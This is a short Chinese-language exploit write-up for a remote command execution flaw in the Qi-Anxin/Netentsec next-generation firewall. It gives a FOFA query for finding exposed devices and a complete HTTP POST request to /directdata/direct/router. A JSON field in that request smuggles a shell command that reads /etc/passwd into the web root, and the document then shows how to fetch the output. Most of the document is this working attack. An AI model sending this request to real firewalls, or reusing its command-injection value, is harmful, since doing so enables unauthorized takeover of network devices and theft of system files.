 # 网康 下一代防火墙 router 远程命令执行漏洞

## 漏洞描述

奇安信 网康下一代防火墙存在远程命令执行，通过漏洞攻击者可以获取服务器权限

## 漏洞影响

```
奇安信 网康下一代防火墙
```

## FOFA

```
app="网康科技-下一代防火墙"
```

## 漏洞复现

登录页面如下

![](./images/202202162229920.png)

发送如下请求包

```plain
![2](C:\Users\47236\Desktop\2.png)POST /directdata/direct/router HTTP/1.1
Host: XXX.XXX.XXX.XXX
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_cmd.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```

再请求获取命令执行结果

```plain
http://xxx.xxx.xxx.xxxx/test_cmd.txt
```

![](./images/202202162229568.png)

